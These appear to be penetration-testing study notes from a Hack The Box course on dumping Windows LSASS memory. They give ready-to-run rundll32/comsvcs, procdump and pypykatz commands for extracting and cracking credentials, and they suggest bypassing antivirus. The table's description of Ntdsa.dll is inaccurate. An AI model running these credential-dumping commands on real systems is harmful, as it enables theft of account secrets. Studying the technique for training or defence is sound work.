

# LSASS Attacks

***Ref: <https://academy.hackthebox.com/module/147/section/1359>***

| **Authentication Packages** | **Description** |
|--|--|
| `Lsasrv.dll` | The LSA Server service both enforces security policies and acts as the security package manager for the LSA. The LSA contains the Negotiate function, which selects either the NTLM or Kerberos protocol after determining which protocol is to be successful. |
| `Msv1_0.dll` | Authentication package for local machine logons that don't require custom authentication.
| `Samsrv.dll` |The Security Accounts Manager (SAM) stores local security accounts, enforces locally stored policies, and supports APIs. |
| `Kerberos.dll` | Security package loaded by the LSA for Kerberos-based authentication on a machine. |
| `Netlogon.dll` | Network-based logon service. |
| `Ntdsa.dll` | This library is used to create new records and folders in the Windows registry. |

## Dumping LSASS Process Memory

Creating a dump file of the LSASS process memory helps in offline credentials from our attack box.

### Task Manager Method

Using a GUI based interactive session use task manager to find `Local Security Authority Process` and create a dump file. It will create a file called `lsass.DMP` in the path `C:\Users\<loggedonusersdirectory>\AppData\Local\Temp`.

### Rundll32.exe & Comsvcs.dll Method

Determine the process ID of the lsass.exe using the these in:

#### Command-Line Utility or cmd.exe

`> tasklist /svc`

Manually find lsass.exe and note the PID

#### Powershell

`Get-Process lsass`

---

### Create lsass.dmp
**cmd.exe**
`powershell -c rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump (Get-Process lsass).id C:\lsass.dmp full`

**Powershell**

Use an **elevated** Powershell session:

`> rundll32 C:\windows\system32\comsvcs.dll, MiniDump (Get-Process lsass).id C:\lsass.dmp full`

> ***Note*** This method of dumping the file is recognized as malicious by most modern Anti-Viruses in which case a way has to found to disable or bypass the AV.

**Procdump** (Not preferred)
Transfer procdump utility
`procdump.exe -accepteula -ma lsass.exe lsass.dmp`

Use file trasfer methods to transfer the lsass.dmp file.

## Using Pypykatz to extract Credentials
| **Command** | **Description** |
|--|--|
| `pypykatz lsa minidump <path>/lsass.dmp` | To attempt to extract credentials using dump file |

> **Tip** Useful NT hash can be found under MSV and then be cracked using hashcat type 1000